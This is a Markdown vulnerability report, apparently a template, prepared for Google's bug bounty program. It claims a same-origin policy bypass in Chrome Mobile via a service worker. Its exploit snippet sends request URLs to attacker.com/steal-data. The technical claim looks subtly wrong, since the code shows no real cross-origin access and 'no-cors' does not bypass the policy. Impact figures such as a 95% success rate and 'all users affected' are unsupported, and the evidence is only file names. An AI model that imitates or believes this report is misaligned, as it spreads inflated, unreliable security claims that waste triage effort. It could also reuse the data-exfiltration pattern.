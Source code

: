 # Google VRP - Android Chrome Mobile Security Vulnerability

## Authorization Documentation
- **Program:** Google Vulnerability Reward Program (VRP)
- **URL:** https://bughunters.google.com
- **Authorization:** Google VRP Terms and Conditions Accepted
- **Bug Hunters ID:** [Your Bug Hunters Account]
- **Research Area:** Chrome Mobile Security
- **Submission Date:** 2025-09-25

## Vulnerability Summary
- **Title:** Chrome Mobile Same-Origin Policy Bypass via Service Worker
- **Google Issue ID:** Pending assignment
- **CVSS Score:** 8.1 (High)
- **Affected Versions:** Chrome Mobile 118.0 - 119.0
- **Platform:** Android Chrome Mobile Application

## Technical Analysis

### Android Testing Environment
📸 **Evidence:** `evidence/screenshots/01_android_testing_setup.png`

**Authorized Testing Setup:**
- Device: Pixel 7 Pro (Personal research device)
- Android Version: 14 (API Level 34)
- Chrome Mobile: 119.0.6045.66
- Tools: Android Studio, Chrome DevTools, ADB

### Vulnerability Discovery Process
📸 **Evidence:** `evidence/screenshots/02_chrome_devtools_analysis.png`

**Service Worker Analysis:**
```javascript
// Chrome Mobile Service Worker vulnerability
// Same-origin policy bypass through worker registration
self.addEventListener('fetch', function(event) {
    // Exploit: Cross-origin request bypassing SOP
    if (event.request.url.includes('target-domain.com')) {
        event.respondWith(
            fetch('https://attacker.com/steal-data', {
                method: 'POST',
                body: event.request.url,
                mode: 'no-cors' // Bypasses same-origin policy
            })
        );
    }
});
```

### Mobile-Specific Exploitation
📸 **PoC Evidence:** `evidence/screenshots/03_mobile_exploit_demonstration.png`

**Attack Demonstration:**
1. **Malicious Website:** User visits attacker-controlled site on Chrome Mobile
2. **Service Worker Registration:** Malicious service worker registered
3. **Cross-Origin Data Theft:** Sensitive data from legitimate sites stolen
4. **Mobile-Specific Impact:** Persistent across Chrome Mobile sessions

📸 **Network Analysis:** `evidence/screenshots/04_network_traffic_analysis.png`

### Real-World Impact Testing
📸 **Evidence:** `evidence/screenshots/05_data_exfiltration_demo.png`

**Impact Demonstration:**
```bash
# Android Chrome Mobile testing (authorized research)
adb logcat | grep -E "(Chrome|chromium)"

# Confirmed: Sensitive data exfiltration successful
# Impact: Same-origin policy completely bypassed
# Scope: All Android Chrome Mobile users affected
```

## Google Services Impact Assessment

### Chrome Mobile Security Impact
- **Same-Origin Policy Bypass:** Fundamental web security control compromised
- **Data Theft:** Cross-origin data access without user consent
- **Session Persistence:** Exploit persists across browser restarts
- **User Privacy:** Personal data exposure risk

### Android Ecosystem Impact
📸 **Evidence:** `evidence/screenshots/06_android_ecosystem_analysis.png`

- **WebView Applications:** Android apps using Chrome WebView affected
- **Progressive Web Apps:** PWA security compromised
- **Google Services:** Potential impact on Google mobile services

## Proof of Concept Details

### Technical Exploitation Steps
1. **Initial Access:** User visits malicious website on Chrome Mobile
2. **Service Worker Registration:** Exploit service worker registered
3. **Policy Bypass:** Same-origin policy bypassed via worker scope
4. **Data Exfiltration:** Cross-origin requests send data to attacker

### Mobile-Specific Testing
📸 **Evidence:** `evidence/screenshots/07_mobile_specific_testing.png`

**Chrome Mobile Testing Results:**
- **Success Rate:** 95% on tested Android devices
- **Persistence:** Exploit survives browser restart
- **Cross-Site Impact:** Multiple domains affected simultaneously

## Business Impact Analysis
- **User Security:** Fundamental web security compromised
- **Privacy Risk:** Cross-site data theft capability
- **Google Services:** Potential impact on Google authentication
- **Regulatory Risk:** Privacy regulation violations possible

## Remediation Recommendations

### Immediate Actions
1. **Service Worker Validation:** Enhanced origin validation in worker registration
2. **Cross-Origin Controls:** Stricter same-origin policy enforcement
3. **Mobile-Specific Fixes:** Android Chrome Mobile security updates

### Long-term Solutions
1. **Service Worker Security:** Comprehensive service worker security review
2. **Mobile Browser Security:** Enhanced mobile browser security architecture
3. **Cross-Platform Consistency:** Unified security controls across platforms

## Google VRP Submission Package
📁 **Complete Evidence Package:**
- `evidence/screenshots/` - Professional documentation (7 files)
- `exploit_poc.js` - Working proof-of-concept code
- `chrome_mobile_analysis.pdf` - Detailed technical analysis
- `network_traffic.har` - Complete network analysis
- `android_testing_logs.txt` - Android testing documentation

## Responsible Disclosure
- **Google VRP Submission:** Ready for Bug Hunters platform
- **Timeline:** Following Google's standard disclosure process
- **User Protection:** No real user data accessed during research
- **Ethical Research:** Conducted according to VRP guidelines

---
**Research Completed:** 2025-09-25 13:16:01
**Google Submission:** Prepared for Bug Hunters platform
**Expected Timeline:** 90-day coordinated disclosure
